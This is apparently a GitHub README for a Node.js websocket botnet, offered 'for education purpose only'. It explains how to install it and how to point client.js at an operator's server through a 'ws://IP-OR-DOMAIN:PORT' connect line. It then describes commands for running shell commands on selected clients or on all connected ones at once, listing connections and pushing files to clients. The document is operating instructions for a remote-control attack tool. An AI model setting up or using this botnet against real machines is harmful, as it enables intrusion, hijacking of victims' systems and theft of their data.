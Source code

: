 
# Botnet using websocket (Node)

NodeJS Botnet using websocket to interact between clients & server. Use it at your own risks (for education purpose only).

## Installation

Use the package manager [npm](https://nodejs.org/en/download/) to install some packages (all includes in the package.json).
Just launch that : 
```bash
npm install
```

## Settings (same as reverse-shell-js)

edit the last line of client.js by adding your ip adress or using localhost if both of them are on the same network.
```javascript
client.connect('ws://IP-OR-DOMAIN:PORT', 'echo-protocol');
```
editing server.js for the connection port at port variable, line 8 :
```javascript
let port = 8080;
```

## Usage

> $ {id} shell_command

## Special commands

- help : All commands (other of shell commands)

- list : List all active connections

- sendfile : Send file to specific client

- execall : Execute a same command for every connections

## Exemple

![presentation-botnet](https://user-images.githubusercontent.com/65828028/124186647-ec69de00-dabc-11eb-99a1-6e667f564fb9.gif)

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[GNU AGPLv3](https://choosealicense.com/licenses/agpl-3.0/)
